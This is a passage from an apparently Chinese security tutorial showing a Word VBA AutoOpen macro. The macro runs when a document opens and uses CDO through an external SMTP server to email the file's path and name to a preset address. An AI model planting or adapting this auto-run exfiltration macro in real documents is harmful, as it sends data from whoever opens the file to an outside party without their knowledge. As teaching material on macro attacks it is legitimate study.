 这里采用CDO自发邮件实现。通过Word VB编写脚本，设置文档打开时运行，利用CDO发送电子邮件将文件的路径和名字发送到指定邮箱中。步骤如下：

首先，定义的宏函数为AutoOpen，如下图所示：

核心代码如下所示：

**完整代码如下，包括获取文件夹路径、定义邮件地址、添加CDO库、设置微软服务器、CDO邮件参数设置、发送数据**

```
Sub AutoOpen()
' AutoOpen宏
' By: CSDN Eastmount 2020-04-21
    
    ' 获取文件夹路径
    Dim WordObj As Object
    Dim Doc As Object
    Set WordObj = GetObject(, "Word.Application")
    Set Doc = WordObj.ActiveDocument
    MsgBox (Doc.Path)
    
    ' 定义邮件地址
    Const from1 = "152xxxxxxxx@163.com"
    Const to1 = "xxxxxxxxxx@qq.com"
    Const password = "xxxxxxxxxx"
    
    ' 添加CDO库
    Set CDO = CreateObject("CDO.Message")
    CDO.from = from1
    CDO.to = to1
    CDO.Subject = Doc.Name
    CDO.Textbody = Doc.Path
    
    ' 微软服务器网址
    MsgBox ("发送邮件")
    Const proxyUrl = "http://schemas.microsoft.com/cdo/configuration/"
    With CDO.Configuration.Fields
        .Item(proxyUrl &amp; "sendusing") = 2                     '发送端口
        .Item(proxyUrl &amp; "smtpserver") = "smtp.163.com"       'SMTP服务器地址
        .Item(proxyUrl &amp; "smtpserverport") = 25               'SMTP服务器端口
        .Item(proxyUrl &amp; "smtpauthenticate") = 1              '是否开启用户名密码验证
        .Item(proxyUrl &amp; "sendusername") = from1              '发送方邮箱名称
        .Item(proxyUrl &amp; "sendpassword") = password           '发送方邮箱密码
        .Item(proxyUrl &amp; "smtpusessl") = True                 '是否使用ssl协议
        .Item(proxyUrl &amp; "smtpconnectiontimeout") = 60        '时延
        .Update
    End With
    
    ' 发送数据
    CDO.Send
    Set CDO = Nothing
    MsgBox ("成功!")
End Sub

```
